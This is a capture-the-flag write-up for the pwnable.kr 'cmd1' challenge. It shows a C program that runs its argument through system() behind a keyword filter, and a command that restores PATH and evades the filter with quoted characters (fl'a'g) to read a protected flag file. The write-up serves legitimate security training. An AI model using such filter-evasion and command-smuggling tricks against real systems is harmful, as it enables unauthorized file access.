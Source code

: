 ## pwn : fd [writeup]

Challenge from [pwnable.kr](https://pwnable.kr/)

**In this challenge** We have this code :
```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```

We need this code to run the command `cat flag`:
```c
system( argv[1] );
```

So we have to put in our argv
```bash
cat flag
```

**This way ?**
```bash
./cmd1 "cat flag"
```

**Wrong!**

Because this line 
```c
putenv("PATH=/thankyouverymuch");
```
will set an env variable `PATH` to `/thankyouverymuch`
`PATH` is an environment variable that tells the shell which directory to search for executable files.

understand more about environment variables [HERE](https://medium.com/towards-data-engineering/understanding-the-path-variable-in-linux-2e4bcbe47bf5#:~:text=The%20PATH%20variable%20in%20Linux%20is%20an%20environment%20variable%20that,printenv%20%7C%20grep%20PATH) 

after we understand the problem let's Solve it.

**Steps To Solve**

1. Get the PATH env value by using `env` command :
![cmd1](https://i.imgur.com/lASMcQt.png)

2. Now Before executing `cat flag` we want to set our `PATH` variable to it's value, in our case :
```bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```
3. Lets give the program our export variable :
```bash
./cmd1 "export PATH='/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin' && cat flag"
```
4. But why we didn't get the flag yet ?
- because of this function `filter`
```c
if(filter(argv[1])) return 0;
```

```c
int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
```

The function `filter` checks if a given command string (cmd) contains any of the substrings `"flag"`, "`sh"`, or `"tmp"`. If any of these substrings are found, the variable r is incremented by one for each match.

So it our case it returns 1 because our `argv[1]` contains `flag`.

to solve this i did a simple trick :
```bash
./cmd1 "export PATH='/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin' && cat fl'a'g"
```

I addeed `''` to flag `fl'a'g` because it will expand later on to `flag`.

end.